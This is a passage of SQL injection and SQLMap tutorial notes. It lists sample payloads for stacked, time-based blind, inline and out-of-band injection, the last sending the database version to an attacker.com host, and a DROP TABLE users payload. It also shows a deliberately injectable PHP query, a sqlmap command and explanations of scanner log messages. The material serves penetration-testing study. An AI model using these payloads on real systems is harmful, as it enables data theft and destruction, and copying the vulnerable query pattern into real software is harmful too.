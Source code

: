 - Stacked queries 

```sql
; DROP TABLE users
```

- Time-based blind 

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

- Inline queries 

```sql
SELECT (SELECT @@version) from
```

- Out-of-band 

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

---

# Basics

Taking the following code as the target page:
```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $query);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

Where the input goes in the URL. To run SQLMap take the URL with the input: `http://www.example.com/vuln.php?id=1`, and then:
```console
zero@pio$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

## Log Messages Description

The following are some of the most common messages usually found during a scan of SQLMap:

> target URL content is stable 

There are no major changes between responses in case of continuous identical requests.

> GET parameter 'id' appears to be dynamic 

It is a sign that any changes made to its value would result in a change in the response; hence the parameter may be linked to a database. In case the output is "static" and does not change, it could be an indicator that the value of the tested parameter is not processed by the target, at least in the current context.

> heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')

